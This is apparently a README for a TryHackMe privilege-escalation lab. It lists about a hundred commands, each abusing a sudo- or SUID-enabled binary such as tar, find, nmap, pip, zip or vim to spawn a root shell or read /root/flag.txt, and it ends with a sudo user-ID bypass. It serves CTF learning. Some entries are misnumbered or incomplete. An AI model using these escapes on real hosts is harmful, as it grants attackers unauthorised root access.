 #Linux Privesc Playground

##100 Ways of capturing root flags

https://tryhackme.com/room/privescplayground

1. sudo arp -v -f "/root/flag.txt"
2. sudo ash
3. sudo awk '//' "/root/flag.txt"
4. sudo bash
5. sudo base64 "/root/flag.txt" | base64 --decode
6. sudo busybox sh , sudo busybox cat /root/flag.txt
7. sudo cat /root/flag.txt
8. sudo chmod 0777 /root/flag.txt , cat /root/flag.txt
9. sudo chown $(id -un):$(id -gn) /root/flag.txt , cat /root/flag.txt
10. cp /root/flag.txt /dev/stdout
11. sudo csh , cat /root/flag.txt
12. cut -d "" -f1 /root/flag.txt
13. sudo dash , cat /root/flag.txt
14. date -f /root/flag.txt
15. emacs /root/flag.txt
16. sudo env /bin/sh , cat /root/flag.txt
17. expand /root/flag.txt
18. sudo expect -c 'spawn /bin/sh;interact' , cat /root/flag.txt
19.
 ```bash
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```
20. file -f /root/flag.txt
21. dd if=/root/flag.txt
22. diff --line-format=%L /dev/null  /root/flag.txt
23. sudo dmsetup ls --exec '/bin/sh -s' , cat /root/flag.txt
24. 
```bash 
TF=$(mktemp -d)
echo 'print(open("/root/flag.txt").read())' > $TF/setup.py
easy_install $TF
```
25. sudo find . -exec /bin/sh \; -quit , cat /root/flag.txt
26. sudo flock -u / /bin/sh , cat /root/flag.txt
27. fmt -999 /root/flag.txt
28. fold -w99999999 /root/flag.txt
29. 
```bash 
sudo ftp
!/bin/sh
cat /root/flag.txt
```
30. sudo gawk '//' /root/flag.txt
31. gdb -nx -ex 'python print(open("/root/flag.txt").read())' -ex quit
32.
```bash
sudo irb
puts File.read("/root/flag.txt")
```
33. sudo jq -R . /root/flag.txt
34. sudo ksh , cat /root/flag.txt
35. less /root/flag.txt
36. 
```bash
sudo logsave /dev/null /bin/sh -i
cat /root/flag.txt
```
37.
```bash
sudo ltrace -L /bin/sh
cat /root/flag.txt
```
38.
```bash
git help config
!/bin/sh
```
39. grep '' /root/flag.txt
40. head -c1G /root/flag.txt
41. ionice /bin/sh , cat /root/flag.txt
42. ip -force -batch /root/flag.txt
43. sudo lua -e 'os.execute("/bin/sh")' , cat /root/flag.txt
44. sudo man /root/flag.txt
45. sudo mawk '//' "/root/flag.txt"
46. more /root/flag.txt
47. 
```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount
cat /root/flag.txt
```
48. mv /root/flag.txt . , cat /root/flag.txt
49. nano /root/flag.txt
50. sudo nawk '//' /root/flag.txt
51. nice /bin/sh , cat /root/flag.txt
52. nl -bn -w1 -s '' /root/flag.txt
53. 
```bash
sudo nmap --interactive
nmap> !sh
cat /root/flag.txt
```
54. od -An -c -w9999 /root/flag.txt
55. openssl enc -in /root/flag.txt
56. sudo perl -e 'exec "/bin/sh";' , cat /root/flag.txt
57. pg /root/flag.txt
58. 
```bash
pic -U
.PS
sh X sh X
cat /root/flag.txt
```
59. 
```bash
pico -s /bin/sh
/bin/sh
Control+T
cat /root/flag.txt
```
60. 
```bash
TF=$(mktemp -d)
echo 'raise Exception(open("/root/flag.txt").read())' > $TF/setup.py
pip install $TF
```
61. sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }" , cat /root/flag.txt
62. python -c 'print(open("/root/flag.txt").read())'
63. readelf -a @$/root/flag.txt
64. rlwrap /bin/sh , cat /root/flag.txt
65. rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null , cat /root/flag.txt
67. sudo ruby -e 'puts File.read("/root/flag.txt")'
68. run-parts --new-session --regex '^sh$' /bin , cat /root/flag.txt
69. rvim /root/flag.txt
70. 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```
71. sudo screen , press SPACE ,  cat /root/flag.txt
72. sudo script -q /dev/null , cat /root/flag.txt
73. sed '' /root/flag.txt
74. sudo service ../../bin/sh , cat /root/flag.txt
75. setarch $(arch) /bin/sh , cat /root/flag.txt
76. socat stdin exec:/bin/sh , cat /root/flag.txt
77. sort -m /root/flag.txt
78. 
```bash
sudo sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```
79. sudo ssh -F /root/flag.txt localhost
80. start-stop-daemon -n $RANDOM -S -x /bin/sh , cat /root/flag.txt
81. stdbuf -i0 /bin/sh , cat /root/flag.txt
82. strace -o /dev/null /bin/sh , cat /root/flag.txt
83. tail -c1G /root/flag.txt
84. sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh , cat /root/flag.txt
85. sudo taskset 1 /bin/sh , cat /root/flag.txt
86. 
```bash
tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```
87. /usr/bin/time /bin/sh , cat /root/flag.txt
88. timeout 7d /bin/sh , cat /root/flag.txt
89. sudo tmux , cat /root/flag.txt
90. ul /root/flag.txt
91. unexpand -t99999999 /root/flag.txt
92. uniq /root/flag.txt
93. sudo unshare /bin/sh , cat /root/flag.txt
94. vi /root/flag.txt
95. vim /root/flag.txt
96. sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0' , cat /root/flag.txt
97. xargs -a /root/flag.txt -0 
98. xxd /root/flag.txt | xxd -r
99. 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
100. sudo zsh , cat /root/flag.txt
101. sudo -u#0 /bin/bash

